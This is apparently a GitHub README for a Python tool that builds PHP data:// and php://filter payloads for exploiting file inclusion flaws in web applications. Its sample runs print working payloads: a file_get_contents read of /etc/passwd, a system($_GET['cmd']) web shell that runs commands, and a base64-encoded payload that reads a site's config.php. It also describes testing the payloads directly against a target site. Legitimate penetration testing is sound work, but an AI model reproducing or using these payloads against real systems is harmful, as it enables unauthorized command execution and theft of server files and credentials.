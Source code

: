 ## PHP Data Exfiltration Automation Tool

## Overview
This is an advanced penetration testing tool for automating the discovery and exploitation of PHP data exfiltration vulnerabilities in web applications. It allows ethical hackers and security researchers to efficiently test for issues like local file inclusion, remote code execution, path traversal etc.

The tool is written in Python and works on Linux platforms. It has an intuitive text-based interface to guide the user through generating optimized payloads for injection testing.
Installation


```
git clone https://github.com/MolCoteH/LFI-RFI
cd LFI-RFI
```
# Usage

## To start the tool, simply run:

```
python php_data_Baypass.py
```
# This will present an interactive menu-driven interface to configure payload options.

## The key steps are:

    Select the writing model (data://, php://filter etc.)
    Choose a mime-type for the data (text/plain, application/x-php etc.)
    Pick a built-in payload (file_get_contents, system command execution etc.)
    Set payload parameters like filenames, commands etc.
    The tool constructs and displays the complete payload
    Option to directly test the payload on a target site

## Payloads

The tool contains the following well-commented payloads spanning multiple exfiltration techniques:

    File Inclusion - Extract arbitrary files from the system
    Code Execution - Execute OS commands via backdoors like system()
    File Reads - Exfiltrate sensitive data like config files
    Path Traversal - Access files outside web directories
    Source Code Disclosure - Dump source code of application pages
    Protocol Bypasses - Use obscure data types to bypass whitelist
    PHP Wrapper Tests - Check for misconfigurations in wrappers like php://input

Users can also easily add custom payloads to the existing codebase.

## Sample Runs

Here are some sample runs showing practical usage:
# LFI Payload with /etc/passwd

```
python php_data_Baypass.py

Select model > 2. data://
Choose data type > 1. text/plain
Select payload > 4. file inclusion 
Enter filename > /etc/passwd

Generated payload:

data://text/plain,<?php echo file_get_contents('/etc/passwd');?>
```
# Get OS Shell with System Execution:
```
python php_data_Baypass.py

Select model > 1. data:
Choose data type > 2. application/x-php
Select payload > 2. system execution
Append command > &cmd=ls -la

Generated payload:  

data:application/x-php,<?php system($_GET['cmd']);?>&cmd=ls -la
```
# Exfiltrate PHP Config in Base64 Format
```
python php_data_Baypass.py

Select model > 2. data://  
Choose data type > 1. text/plain
Select payload > 8. base64 file read
Enter filename > /var/www/config.php

Generated payload:

data://text/plain;base64,PD9waHAgZWNobyBiYXNlNjRfZW5jb2RlKGZpbGVfZ2V0X2NvbnRlbnRzKCcvdmFyL3d3dy9jb25maWcucGhwJykpOz8+
```
This provides an overview of the key capabilities of the tool. It simplifies and automates the manual process of PHP penetration testing and vulnerability discovery. The modular design allows rapid enhancements as well.
